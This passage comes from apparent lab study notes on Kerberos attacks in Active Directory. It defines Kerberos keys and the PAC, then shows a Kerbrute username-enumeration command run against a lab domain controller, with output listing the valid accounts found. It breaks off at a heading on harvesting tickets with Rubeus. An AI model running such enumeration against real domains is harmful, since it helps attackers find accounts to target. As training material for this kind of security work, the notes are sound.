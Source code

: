 Client Long Term Secret Key (Client LT Key) - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
Service Long Term Secret Key (Service LT Key) - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
Session Key - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
Privilege Attribute Certificate (PAC) - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

### Enumeration w Kerbrute 

You need to add the DNS domain name with the machine IP to /etc/hosts `10.10.253.78  CONTROLLER.local`

1. Link: (Kerbrute GitHub)[https://github.com/ropnop/kerbrute/releases]
2. rename kerbrute_linux_amd64 to kerbrute
3. make it executable `chmod +x kerbrute`

### Enumerate Users w Kerbrute

1. You need a wordlist for Users -> (User.txt)[https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt]
2. 
```console
$ ./kerbrute userenum --dc 10.10.227.157 -d spookysec.local userlist.txt

Version: v1.0.3 (9dad6e1) - 03/12/22 - Ronnie Flathers @ropnop

2022/03/12 12:12:10 >  Using KDC(s):
2022/03/12 12:12:10 >   10.10.227.157:88

2022/03/12 12:12:11 >  [+] VALID USERNAME:       james@spookysec.local
2022/03/12 12:12:12 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2022/03/12 12:12:13 >  [+] VALID USERNAME:       James@spookysec.local
2022/03/12 12:12:13 >  [+] VALID USERNAME:       robin@spookysec.local
2022/03/12 12:12:18 >  [+] VALID USERNAME:       darkstar@spookysec.local
2022/03/12 12:12:20 >  [+] VALID USERNAME:       administrator@spookysec.local
2022/03/12 12:12:26 >  [+] VALID USERNAME:       backup@spookysec.local
2022/03/12 12:12:28 >  [+] VALID USERNAME:       paradox@spookysec.local
2022/03/12 12:12:45 >  [+] VALID USERNAME:       JAMES@spookysec.local
2022/03/12 12:12:51 >  [+] VALID USERNAME:       Robin@spookysec.local
2022/03/12 12:13:25 >  [+] VALID USERNAME:       Administrator@spookysec.local
2022/03/12 12:14:36 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2022/03/12 12:14:59 >  [+] VALID USERNAME:       Paradox@spookysec.local
2022/03/12 12:16:09 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2022/03/12 12:16:32 >  [+] VALID USERNAME:       ori@spookysec.local
2022/03/12 12:17:16 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2022/03/12 12:19:04 >  Done! Tested 73317 usernames (16 valid) in 413.056 seconds

```

### Harvesting/ Bruteforce Tickets w Rubeus
